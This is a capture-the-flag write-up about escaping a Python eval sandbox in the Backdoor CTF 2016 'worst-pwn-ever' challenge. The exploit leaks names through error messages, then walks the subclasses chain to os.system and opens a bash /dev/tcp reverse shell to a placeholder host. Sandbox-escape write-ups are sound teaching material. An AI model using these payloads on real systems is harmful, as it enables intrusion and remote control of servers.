 ```yaml
---
id: 795
title: 'Backdoor CTF 2016 - Worst-pwn-ever - Pwn Challenge'
date: 2016-06-06T05:08:19+00:00
author: Kris
layout: post
guid: https://ctf.rip/?p=795
permalink: /backdoor16-worstpwnever/
themepixels_post_link_target:
  - 'yes'
themepixels_enable_post_header:
  - default
themepixels_enable_post_meta_single:
  - default
themepixels_enable_post_featured_content:
  - default
themepixels_enable_post_categories:
  - default
themepixels_enable_post_tags:
  - default
themepixels_enable_post_share:
  - default
themepixels_enable_post_author_info_box:
  - default
themepixels_enable_related_posts:
  - default
themepixels_enable_post_next_prev_links:
  - default
themepixels_enable_topbar:
  - default
themepixels_enable_sticky_header:
  - default
themepixels_header_layout:
  - default
themepixels_site_layout:
  - default
themepixels_sidebar_position:
  - default
post_views_count:
  - "2477"
image: /images/2016/06/banner-1.png
categories:
  - Write-Ups
---
```

Cool little challenge, we're given a hostname and port. When we connect we're presented with a '>' prompt and we have to deduce the environment we're in then exploit it. 

> **worst-pwn-ever**
  
> tocttou is an enviornmentalist. But some say he has a vicious motive and he uses nature to hide his dark side. We found a weird shell on his amazon (pun inteded) web services. Can you tell us what is he upto? Tip: he might shut down the machine if he notices you - and he will (maybe in 45 seconds). Access: nc hack.bckdr.in 9008
> 
> Created by: Ashish Chaudhary

After one command is attempted the shell exits. Here's the first run: 
```
> test
NameError: name 'test' is not defined
-> WHAT ARE YOU DOING HERE? >-[

```
 

NameError makes me think this is a Python exception. I try to have it print something using Python print. 
```
> print dir()
NameError: invalid syntax (<string>, line 1) 
-> WHAT ARE YOU DOING HERE? >-[
```
 

No luck. I'm thinking we don't seem to be able to see the results of our code except for in the Exceptions, so I try to raise meaningful NameError exceptions: 
```
> eval(dir()[0]+"X")
NameError: name '__builtins__X' is not defined
-> WHAT ARE YOU DOING HERE? >-[
```
 

I am thus able to leak names and contents of the globals etc. Thinking the flag was in the Python environment we wrote a script to enumerate dir()/globals() etc but no luck there.

Next I focused on getting code execution. The os/sys modules are not loaded, but I recalled a past CTF where it is possible to call os.system() even when os module is not loaded through a convoluted path. This is the writeup I mean:

<a href="https://blog.inexplicity.de/plaidctf-2013-pyjail-writeup-part-i-breaking-the-sandbox.html" target="_blank">https://blog.inexplicity.de/plaidctf-2013-pyjail-writeup-part-i-breaking-the-sandbox.html</a>

So on my local system I began searching to see if this `linecache` module method still works on Python in 2016. I examine the list of subclasses in Python on my local machine: 
```
>>> ().__class__.__base__.__subclasses__()
[<type 'type'>, <type 'weakref'>, ... , <class 'warnings.catch_warnings'>, ...] 
```
 
It's there, at index 59 of the `__subclasses__()` list is `warnings.catch_warnings`. Let's examine if the remote system aligns with my system. We can call a fake attribute of this method to generate a NameError exception: 
```
> ().__class__.__base__.__subclasses__()[59].__fake__
NameError: type object 'catch_warnings' has no attribute '__fake__'
-> WHAT ARE YOU DOING HERE? >-[
  
```
 

Nice! It aligns with my local system. So we can continue to exploit this with the same attributes used in PlaidCTF 2013. Like so... 
```
> ().__class__.__base__.__subclasses__()[59].__init__.func_globals["linecache"].__dict__["os"].system("bash -i >& /dev/tcp/x.x.x.x/1234 0>&1")

```

From which I received a reverse Bash shell on my listening host. 

Given the clue about the "environmentalist" I checked the bash environment and sure enough the flag was stored as an environment variable.